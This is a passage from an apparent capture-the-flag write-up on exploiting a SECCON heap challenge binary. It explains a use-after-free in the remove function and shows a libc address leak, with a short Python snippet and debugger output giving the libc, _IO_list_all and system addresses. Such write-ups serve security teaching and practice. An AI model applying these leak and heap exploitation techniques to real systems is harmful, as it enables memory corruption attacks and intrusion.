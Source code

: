 ![img1](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/add_key.png)

![img2](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/add_key2.png)

#### ~ Edit

By choosing `edit` we can edit the `key` member of the struct. `edit` uses `malloc_usable_size` which internally calls `musable`,
on the current chunk in order to extract its size, then subtracts **0x20** from it and finally call `getnline` which will read 
in the new key.

![img3](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/edit_key.png)

#### ~ Remove

`Remove` free's **only** the malloc pointer, it doesn't zero out the entry in the chunk array. However, it does zero out the byte
value in the bytearray. There is definitely a way to create a double-free scenario via this indirect UAF but I didn't purse this
path towards exploiting the binary. 

![img4](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/remove_key.png)

### Exploit Analysis

Now that we've established how the binary works, let's get to pwning. First things first, info leak.

#### ~ Libc Leak

In case we want to change the master pass, we have to enter the previous account name in order to be prompted with a new input. 
However, because of the fact that read doesn't null terminate strings, we can get a leak out of it. Specifically, if we enter
the wrong account name, the binary will just print whatever we entered.

![leak](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/leak.png)

```python
acc    = "kek"
key    = "lel"
reg(acc, key)

# Leak libc
libc   = leak('A'*0x18) - 0x3c5620
```

```
gdb-peda$ x/4gx $rax
0x7fffffffe3a0:	0x4141414141414141	0x4141414141414141
0x7fffffffe3b0:	0x4141414141414141	0x00007ffff7dd2620
gdb-peda$ x 0x00007ffff7dd2620
0x7ffff7dd2620 <_IO_2_1_stdout_>:	0x00000000fbad2887

[+] Libc:         0x7ffff7a0d000
[+] _IO_list_all: 0x7ffff7dd2520
[+] system:       0x7ffff7a52390
```
